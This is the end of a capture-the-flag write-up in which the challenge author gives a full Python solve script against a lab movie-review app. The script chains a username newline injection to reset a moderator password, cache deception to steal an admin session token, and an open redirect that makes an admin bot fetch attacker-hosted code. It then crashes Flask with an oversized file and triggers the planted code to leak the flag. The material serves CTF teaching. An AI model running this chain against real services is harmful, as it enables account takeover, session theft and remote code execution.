  Your browser does not support the video tag.
</video>

And we got the last flag! Challenge solved!

## Creating a solve script
I think its cool to have a full solve script, so I made that, you will need to have the `httpsserver.py`, `index.html` (with large `<p>` tag, `html.py` and `solve.py` in the same directory for it to work) here is `solve.py`

```python
# solve.py
import requests
import time
import subprocess

my_ip = "172.19.0.3"
target_url = "http://172.19.0.2:80"

### Create a user first
print("[*] Creating a user")
register_url = f"{target_url}/api/register"
register_payload={"password": "a", "signup_code": "aar~-000q-022", "username": "abc@xx.com"}
r = requests.post(register_url, json=register_payload)
if r.status_code != 200:
    print("[-] Failed to create user")
    exit(1)
print("[+] User created")

time.sleep(1)

### login with this new user
print("[*] Logging in")
user_session = requests.session()
login_url = f"{target_url}/api/login"
login_payload={"password": "a", "username": "abc@xx.com"}
response = user_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login")
    exit(1)
print("[+] Logged in")

time.sleep(1)

### Add a review for later
print("[*] Adding a review")
add_review_url = f"{target_url}/api/submit_review"
add_review_payload = {"movie_id":"1","review_title":"a","review":"a"}
response = user_session.post(add_review_url, json=add_review_payload)
if response.status_code != 200:
    print("[-] Failed to add review")
    exit(1)
print("[+] Review added")


time.sleep(1)

### Maliciously update password for moderator user
print("[*] Updating password for moderator user, through own profile")
update_user_url = f"{target_url}/api/update_user"
update_user_payload = {"username":"moderator@movie-review.local\n","password":"a"}
response = user_session.post(update_user_url, json=update_user_payload)
if response.status_code != 200:
    print("[-] Failed to update password for moderator@movie-review.local")
    exit(1)
print("[+] Password updated for moderator@movie-review.local to 'a'")

time.sleep(1)

### Logging in as moderator
moderator_session = requests.session()
print("[*] Logging in as moderator")
login_payload={"password": "a", "username": "moderator@movie-review.local"}
response = moderator_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login as moderator")
    exit(1)
print("[+] Logged in as moderator")

time.sleep(1)

### Make the admin bot visit the cache link
print("[*] Making the admin bot visit the cache link")
visit_link_url = f"{target_url}/api/report_review"
visit_link_payload = {"review_url":"/api/user/self2.css"}
response = moderator_session.post(visit_link_url, json=visit_link_payload)
if response.status_code != 200:
    print("[-] Failed to make the admin bot visit the cache link")
    exit(1)
print("[+] Admin bot visited the cache link")

time.sleep(1)

# Grabbing the admin session token from the cached link
print("[*] Grabbing the admin session token from the cache link")
admin_session_token = ""
cached_url = f"{target_url}/api/user/self2.css"
response = moderator_session.get(cached_url)
if response.status_code != 200:
    print("[-] Failed to grab the admin session token")
    exit(1)
if "admin" not in response.text:
    print("[-] Admin session token not found in the cache link")
    exit(1)
admin_session_token = response.json().get("session_token", "")
if not admin_session_token:
    print("[-] Failed to extract admin session token")
    exit(1)
print(f"[+] Admin session token: {admin_session_token}")

time.sleep(1)

### Logging in as admin
admin_session = requests.session()
print("[*] Setting session token as admin")
admin_session.cookies.set("session", admin_session_token)
r = admin_session.get(f'{target_url}/api/admin/get_users')
if r.status_code != 200:
    print("[-] Failed to login as admin")
    exit(1)
print("[+] Logged in as admin")

# go through all users and find the user with username containing "DDC{" and print it
users = r.json()
for user in users:
    if "DDC{" in user['username']:
        print(f"[+] Found the first flag: {user['username']}")
        break
    
time.sleep(1)

### Enable experimental mode
print("[*] Enabling experimental mode")
enable_experiments_url = f"{target_url}/api/admin/update_experiments"
enable_experiments_payload = {"experiments": True}
response = admin_session.post(enable_experiments_url, json=enable_experiments_payload)
if response.status_code != 200:
    print("[-] Failed to enable experimental mode")
    exit(1)
print("[+] Experimental mode enabled")

time.sleep(1)

### Create the index.html file
print("[*] Creating the index.html file")
open('index.html', 'w').write('<!DOCTYPE html><html><head></head><body><p>' + 'x'*1000*1000*50 + '</p></body></html>') # From create.py

print("[+] Finished creating the large index.html file")

time.sleep(1)

### Start up the http.server with https to serve the index.html file
print(f"[*] Starting the http.server with https on https://{my_ip}/")
subprocess.Popen(["python3", "httpsserver.py"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

print("[+] Started the https.server with https")

time.sleep(1)


### Make the admin bot visit open redirect to download 'html.py'
print("[*] Making the admin bot visit the open redirect link to download 'html.py'")
visit_link_payload = {"review_url": f"/admin/impersonate?username=admin&redirect_to=https://{my_ip}/html.py"}
response = admin_session.post(visit_link_url, json=visit_link_payload)

if response.status_code != 200:
    print("[-] Failed to make the admin bot visit the open redirect link")
    exit(1)
print("[+] Admin bot visited the open redirect link and 'time.py' was downloaded")

time.sleep(1)


### Make the admin bot visit the open redirect to try to import a large index.html to crash flask
print("[*] Making the admin bot visit the open redirect link to try to import a large index.html to crash flask")

for i in range(5):
    visit_link_payload = {"review_url": f"/admin/impersonate?username=admin&redirect_to=https://{my_ip}/index.html"}
    response = admin_session.post(visit_link_url, json=visit_link_payload)
    
    if response.status_code == 503:
        break
    
    if i == 4:  # Last attempt
        print("[-] Failed to make the admin bot visit the open redirect link and crash flask after 5 attempts")
        exit(1)
    
    time.sleep(1)  # Wait between attempts

print("[+] Admin bot visited the open redirect link and crashed flask")

time.sleep(5)

### Logging in as moderator
moderator_session = requests.session()
print("[*] Logging in as moderator to trigger the html.py execution and leak the flag")
login_payload={"password": "a", "username": "moderator@movie-review.local"}
response = moderator_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login as moderator")
    exit(1)
print("[+] Logged in as moderator")

time.sleep(1)
### Get the movies from the api to trigger the html.py execution and leak the flag
print("[*] Getting the movies from the api to trigger the html.py execution and leak the flag")
response = moderator_session.get(f"{target_url}/api/get_movies")
if response.status_code != 200:
    print("[-] Failed to get the api")
    exit(1)
print("[+] Got the api and caused the flag to be leaked")

time.sleep(2)

### Get the flag
print("[*] Getting the flag")
r = requests.get(f"{target_url}/static/flag.css")
if r.status_code != 200:
    print("[-] Failed to get the flag")
    exit(1)
print(f"[+] Found the second flag: {r.text}")
```

And running it:
<video autoplay loop muted playsinline controls>
  <source src="/solution.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

## Outro
Thanks for reading this comprehensive writeup, many of the vulnerabilities used here are ones I have found when doing bug bounty hunting...

–I am again really thrilled to have been given this opportunity to create this CTF challenge, I hope you had fun struggling with it. If you have any comments let me know on Linkedin or Discord :-)

